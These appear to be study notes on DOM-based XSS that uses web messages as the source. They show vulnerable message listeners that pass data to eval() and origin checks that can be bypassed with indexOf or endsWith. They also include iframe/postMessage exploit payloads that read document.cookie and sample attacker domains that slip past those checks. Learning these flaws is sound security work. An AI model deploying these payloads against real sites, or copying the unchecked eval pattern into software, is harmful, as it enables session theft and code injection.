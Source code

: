 the following kind of data can also be used as `source` to exploit `taint-flow culnerability`
- [reflected data(reflected DOM xss)](https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-combined-with-reflected-and-stored-data)
- [Stored data (stored DOM XSS) ](https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-combined-with-reflected-and-stored-data)
- [Web messages as source](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source)

## web messages as source
### Controlling web-message Source
#### How to construct an attack using web messages as the source
vuln code
```js
<script>
window.addEventListener('message', function(e){
eval(e.data);
});
</script>
```
this Script is vulnerable because an attacker could inject a JS payload by constructing `iframe:`
```js
<iframe src = "//vuln-web.com"
onload = "this.contentWindow.postMessage('alert(1)','*')">
```
because the event listener does not verify Origin of the message, event listener accepts the payload and passes it into a sink, in this case it is `eval()` function.

example exploits
```js 
#exploit-server code
<iframe src="https://vuln-web.com/" onload="this.contentWindow.postMessage('javascript:alert(document.cookie)//http:','*')"> 
```

### Origin Verification
- if some `event listener` does include some form of origin verification, this verification step can sometimes be flawed
```js
window.addEventListener('message', function(e){
if(e.origin.indexOf('normal-web.com')> -1){
eval(e.data)}})
```
- The `indexOf` method is used to try and verify that the origin of the incoming message is the `normal-website.com` domain. However, in practice, it only checks whether the string `"normal-website.com"` is contained anywhere in the origin URL.
- this can be bypass by `http://www.normal-web.com.attacker.net`
- the same flaw also applied to verification checks relay on `startsWith() or endsWith()` methods.
- `example:` `http://www.malicious-websitenormal-website.com` as safe acc. to the verifyier methods
```js
window.addEventListener('message', function(e){
if(e.origin.endsWith('normal-website.com')){
eval(e.data)}})
```
exploit
```js
<iframe src=https://vuln-web.com/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(document.cookie)\"}","*")'> 
```
